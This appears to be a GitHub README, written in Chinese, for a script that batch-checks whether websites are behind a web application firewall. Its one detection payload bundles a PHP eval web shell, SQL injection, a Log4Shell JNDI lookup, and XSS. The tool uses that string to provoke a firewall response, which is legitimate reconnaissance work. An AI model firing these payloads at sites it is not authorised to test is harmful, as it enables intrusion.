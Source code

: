# check-waf
批量检查站点是否存在waf

## how to use
python3 check-waf.py urls.txt

## 说明
默认生成的Excel表格名字为：{txt文件名}\_waf_results\_{当前时间}.xlsx

## 检测规则
![image](./rule.png)

payload：`?a=<%3fphp+%40eval($_GET['cmd'])%3b%3f>&b=1'+or+'1'%3d'1&c=${jndi%3aldap%3a//10.0.0.1%3a8080/Exploit}&s=<script>alert(1)</script>&id=UNION+SELECT+ALL+FROM+information_schema+AND+'+or+SLEEP(5)+or+'`
